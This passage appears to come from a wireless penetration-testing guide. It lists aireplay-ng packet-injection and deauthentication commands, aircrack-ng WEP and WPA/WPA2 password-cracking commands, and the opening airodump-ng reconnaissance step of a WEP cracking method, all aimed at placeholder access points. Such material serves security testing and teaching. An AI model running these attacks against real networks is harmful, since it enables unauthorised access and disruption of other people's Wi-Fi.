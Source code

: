 **Advanced Injection**:
```bash
# Injection with custom timing
aireplay-ng -0 5 -a 00:11:22:33:44:55 --delay 1000 wlan0mon

# Injection with specific reason codes
aireplay-ng -0 5 -a 00:11:22:33:44:55 --reason 7 wlan0mon

# Packet replay from file
aireplay-ng -2 -r captured.cap wlan0mon

# Fragment size manipulation
aireplay-ng -4 -f 1500 -b 00:11:22:33:44:55 wlan0mon
```

### **aircrack-ng - Password Cracking Engine**

**Purpose**: Recovers WEP keys and cracks WPA/WPA2 passwords using various attack methods.

**Cracking Methods**:
- **Statistical Analysis**: FMS, KoreK, PTW attacks for WEP
- **Dictionary Attacks**: Wordlist-based WPA/WPA2 cracking
- **Brute Force**: Systematic password generation
- **Rainbow Tables**: Pre-computed hash lookups

**Advanced Cracking**:
```bash
# Multi-threaded cracking
aircrack-ng -w wordlist.txt -p 8 handshake.cap

# Session management
aircrack-ng -w wordlist.txt -s session.txt handshake.cap

# Specific BSSID targeting
aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 handshake.cap

# Combined capture files
aircrack-ng -w wordlist.txt capture*.cap
```

---

## 🔬 Attack Methodologies

### **WEP Cracking Methodology**

**Step 1: Reconnaissance**
```bash
# Discover WEP networks
airodump-ng wlan0mon

# Target specific network
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wep_target wlan0mon
```
